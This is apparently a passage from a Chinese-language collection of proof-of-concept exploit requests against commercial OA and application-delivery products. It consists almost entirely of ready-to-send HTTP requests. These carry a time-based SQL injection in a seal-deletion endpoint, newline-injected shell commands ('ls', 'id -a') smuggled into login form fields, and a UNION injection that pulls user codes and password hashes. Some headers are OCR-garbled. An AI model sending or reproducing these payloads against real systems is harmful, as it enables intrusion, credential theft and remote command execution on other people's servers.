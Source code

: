 GET /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

### 5、某x服应用交付系统命令执行漏洞 POC

POST /rep/login
Host:10.10.10.1:85

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123

### 6、某联达oa sql注入漏洞 POC

POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: xxx.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx.com:8888/Services/Identification/Server/Incompatible.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

dasdas=&key=1' UNION ALL SELECT top 1812 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

### 7、某服 sxf-报表系统 版本有限制

POC

POST /rep/login HTTP/1.1 
Host: URL
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 0s X 10.15: ry:109.0)Gecko/20100101 Firefox/115.0 
Accept:text/html,application/xhtml+xml,application/xml;g=0,9, image/avif, image/webp,*/*;q=0.8 Accept-Language:zh-CN, zh;g=0.8, zh-TW;g=0.7, zh-HK;g=0.5,en-US;g=0.3,en;g=0.2 
Accept-Encoding: gzip deflate 
Upgrade-Insecure-Requests: 1 
Sec-Fetch-Dest: document 
Sec-Fetch-Mode: navigate 
Sec-Fetch-Site: cross-site Pragma: no-cache Cache-Control: no-cache14 Te: trailers 
Connection: close 
Content-Type:application/x-www-form-urlencoded 
Content-Length: 126 clsMode=cls_mode_login&index=index&log_type=report&page=login&rnd=0.7550103466497915&userID=admin%0Aid -a %0A&userPsw=tmbhuisq
